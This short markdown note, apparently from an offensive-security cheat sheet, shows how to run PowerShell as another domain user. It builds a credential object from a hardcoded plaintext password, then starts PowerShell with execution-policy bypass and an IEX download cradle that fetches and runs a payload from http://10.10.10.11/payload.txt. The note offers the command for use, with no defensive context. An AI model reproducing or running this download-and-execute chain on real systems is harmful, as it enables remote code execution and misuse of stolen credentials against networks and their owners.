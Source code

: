# $cred in pwsh

Fancy replacement to runas

### 1) Get into shell

    shell

### 2) Run the following

    $pass = ConvertTo-SecureString 'NewP@ssword123!' -AsPlainText -Force`
    $Cred = New-Object System.Management.Automation.PSCredential("domain\user", $pass)

### 3) Start the process

    Start-Process powershell.exe -Credential $Cred -ArgumentList "-exec bypass -C `"IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.11/payload.txt')`""
